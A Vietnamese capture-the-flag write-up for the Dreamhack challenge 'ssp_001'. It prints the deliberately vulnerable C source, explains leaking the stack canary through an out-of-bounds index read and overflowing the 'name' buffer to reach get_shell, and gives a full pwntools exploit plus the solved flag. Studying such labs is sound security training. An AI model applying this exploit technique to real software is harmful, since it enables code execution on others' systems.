







# DH[ssp_001]



    $ file *
    ssp_001:   ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ee998115adcc2751595b8d60732998fe634dfd8, not stripped
    ssp_001.c: C source, ASCII text

### Source code
 
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```


### Analys

Chương trình sẽ in ra **menu** gồm `Fill in the box`, `Print the box` và `Exit`. `F` cho phép người dùng nhập dữ liệu vào mảng `box`, `box` có độ lớn `0x40` và `read` đúng `sizeof(box)` nên không có gì để khai thác ở đây. `P` sẽ in ra giá trị của phần tử của mảng `box` được chỉ định bởi người dùng bởi hàm print `box`, hàm này sẽ in ra từng `byte` một, cái này có lẽ sẽ giúp ích được gì đó =)). `E` : đầu tiên sẽ bắt ta nhập một số là độ lớn mà ta muốn ghi vào mảng `name` rồi nhập dữ liệu vào nó, trong khi mảng `name` đã được cố định độ lớn là `0x40`, nếu ta khai báo độ lớn vượt quá ngưỡng này sẽ gây ra `bof`.

**Checksec** cho biết `NX bit` và `Canary` đang được bật. Kịch bản là ta sẽ *leak canary* bằng chức năng `[ P ]` và **overerite return address** tới `get_shell` thông qua `[ E ]`.

Muốn `leak` được thì trước tiên ta phải xác định được thứ tự các biến trong stack.



Trước khi return, `Canary` sẽ kiểm tra giá trị lúc đầu và hiện tại, nên `[ebp - 0x8]` chính là địa chỉ của `canary` 



Chương trình sẽ cmp các giá trị rồi `jump` tới địa chỉ cần thiết giống như câu lệnh **switch case** trong `source code`
Đây là lệnh `jump` cuối cùng 



Ta có sơ đồ trong stack



Như vậy có thể thấy được `canary` sẽ nằm ở phần tử thứ `128`, `129`, `130`, `131` của `box`

### Exploit 

    Payload = 0x40byte name + 4 byte canary + 4byte trống + 4 byte ebp + get_shell

```python
#!/usr/bin/python3
from pwn import *
exe = ELF('./ssp_001', checksec=False)
canary = b'0x'
#p = process(exe.path)
p = remote('host3.dreamhack.games',24520)
p.recvuntil(b'>')
for i in range(131, 127, -1):  # leak canary
	p.sendline(b'P')           
	p.sendlineafter(b": ", str(i))
	p.recvuntil(b"is : ")
	canary += p.recv(2)
canary = int(canary, 16)
log.info("canary: " + hex(canary))
payload = b"A" * 0x40
payload += p32(canary)
payload += b'A'*8
payload += p32(exe.sym['get_shell'])
p.send(b'E')
p.sendlineafter(b': ', b'100') # sizename = 100
p.sendafter(b": ", payload)
p.interactive()

```


`flag: DH{00c609773822372daf2b7ef9adbdb824}`